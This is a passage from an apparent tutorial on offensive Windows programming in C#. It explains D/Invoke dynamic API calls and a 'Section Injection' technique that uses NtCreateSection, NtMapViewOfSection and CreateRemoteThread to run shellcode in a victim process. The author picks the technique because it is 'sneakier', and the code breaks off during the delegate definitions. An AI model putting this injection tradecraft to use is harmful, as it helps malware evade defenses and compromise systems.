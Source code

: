 The first line will grab a pointer to the `Sleep` function within `kernel32.dll`, while the second one creates an instance of our `Sleep` delegate. The `Marshal.GetDelegateforFunctionPointer` function returns a delegate that will point to a function written in unmanaged code; it will use our `pointer` variable to determine which the location of which function this delegate points to. Additionally, `Marshal.GetDelegateforFunctionPointer` is using our `Sleep` delegate as a function prototype so we can pass in our managed code arguments to the function in unmanaged code smoothly. In other words, the function pointer returned by  `Marshal.GetDelegateforFunctionPointer`  will point to the function at the `pointer` variable, and it will use the `Sleep` delegate to figure out the argument count and types that will be passed. 

This process can also be done like this:
```csharp
static void dinvokeDynamicSleep(uint ms)
{
	object[] funcargs = { ms };
	DynamicInvoke.Generic.DynamicApiInvoke("kernel32.dll", "Sleep", typeof(Delegates.Sleep), ref funcargs);
}
dinvokeDynamicSleep(1000);
```
The `DynamicInvoke.Generic.DynamicApiInvoke` function actually does the whole `GetLibraryAddress` and `Marshal.GetDelegateForFunctionPointer` for us, but its up to you which implementation you feel like using.

## "Section Injection"
I call this "Section Injection" because I couldn't find any sort of official name on the technique, but it still falls under Process Injection. According to <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views">Microsoft documentation</a>, `sections` are literal sections of memory that can be shared between processes. Sections have `views`, which are the visible part of the section to other processes, and creating a view is called `mapping`. This can be performed through using the Native APIs  `NtCreateSection` and `NtMapViewOfSection`. Native APIs are actually what the Win32 APIs call on internally. We'll also need  `CreateProcess`  to create a process and `CreateRemoteThread` to create a thread in the victim process that will trigger the shellcode in the view of our section. The reason I opted for this techique is because it seemed sneakier; rather than injecting shellcode to antoher process, we're writing to a shared space (the section) that we create.

## Piecing it Together
We'll start off by creating our delegates and function wrappers for the delegates (I'm going with the `DynamicInvoke.Generic.DynamicApiInvoke`  approach). The dataypes for the arguments I used in the delegates were based on the Pinvoke entries. Also, the `Structs` class is omitted since it is very long (it's just a bunch of constant values and datatypes), but I'll include the full code at the end.
```csharp
using System;
using System.Reflection;
using System.Runtime.InteropServices;
using System.IO;
using System.Collections.Generic;
using System.Diagnostics;
using System.Threading;
namespace Dinvoke
{
	public class Delegates
	{
	[UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
```